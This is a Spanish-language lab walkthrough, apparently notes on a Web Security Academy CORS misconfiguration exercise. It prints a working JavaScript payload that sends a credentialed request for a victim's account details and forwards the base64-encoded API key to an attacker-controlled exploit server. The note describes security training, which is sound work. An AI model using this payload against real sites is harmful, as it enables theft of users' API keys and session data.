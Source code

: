 Ya con la comprobación inicial realizada, nos centramos ahora en desplegar el exploit en el servidor de ataque. El objetivo es automatizar el robo de la clave de API mediante una petición ‘**XMLHttpRequest**‘ con credenciales activadas (**withCredentials**). Si el origen malicioso es reflejado en la respuesta como válido, y se permite el acceso a la respuesta gracias al encabezado ‘**Access-Control-Allow-Origin**‘, el navegador de la víctima nos dejará leer los datos sensibles y redirigirlos al log del exploit server.

Este enfoque demuestra cómo una validación incorrecta del origen puede dejar expuestos endpoints sensibles incluso cuando se ha intentado limitar el acceso con mecanismos CORS mal implementados.

Solucion
si nosotro agregamos origin y una direccion X si le damos a send vemos que nos esta redirigiendo a la pagina web que nosotros pusimos
![[Pasted image 20250728202600.png]]
y esto se presenta como un riesgo ya que esto se puede utilizar para cambiar informacion de modo que si el usuario visita account Details que en realidad es nuestra pagina web nos mande la informacion de apikey
entonces para ello vamos a realizar un script el cual nos de informacion sobre el usuario que queremos obtener su apikey
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0aa000a0039d1754808d398f01cf00a1.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a65006f036117a580193a9e00d300ad.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>

Entonces en nuesto exploit server ejecutamos este codigo y nos vamos a los logs
![[Pasted image 20250728204549.png]]
obtuvimos la apikey como lo visualizamos
![[Pasted image 20250728204710.png]]
